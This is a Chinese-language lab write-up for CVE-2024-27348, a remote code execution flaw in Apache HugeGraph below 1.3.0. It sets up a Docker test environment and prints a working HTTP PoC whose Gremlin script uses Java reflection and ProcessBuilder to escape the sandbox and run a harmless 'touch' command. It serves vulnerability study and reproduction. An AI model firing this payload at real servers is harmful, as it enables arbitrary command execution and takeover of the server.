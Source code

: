 # Apache HugeGraph 远程命令执行漏洞（CVE-2024-27348）

HugeGraph是一款易用、高效、通用的图数据库，实现了Apache TinkerPop3 框架、兼容 Gremlin 查询语言。
在 Apache HugeGraph 1.3.0 之前的版本中存在远程代码执行（RCE）漏洞。攻击者可以通过 Gremlin 绕过沙箱限制并实现 RCE 执行任意命令，从而完全控制服务器。

参考链接：

- https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/
- https://github.com/apache/incubator-hugegraph
- https://hugegraph.apache.org/
- https://github.com/kljunowsky/CVE-2024-27348

## 运行环境

执行如下命令启动漏洞环境：

```
docker compose up -d
```

启动完成后，访问`http://your-ip:8088/`即可看到web页面。

## 漏洞复现

通过 Burp Suite 拦截请求，并使用如下 PoC：
```
POST /gremlin HTTP/1.1
Host: tonghuaroot.local:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 758

{   

    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"touch\", \"/tmp/tonghuaroot\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");startMethod.invoke(processBuilderInstance);",

    "bindings": {},

    "language": "gremlin-groovy",

    "aliases": {}

}
```
![alt text](image.png)

进入容器内部 ```docker compose exec hugegraph bash``` ，可见 ```/tmp/tonghuaroot``` 已成功创建：

![alt text](image-1.png)
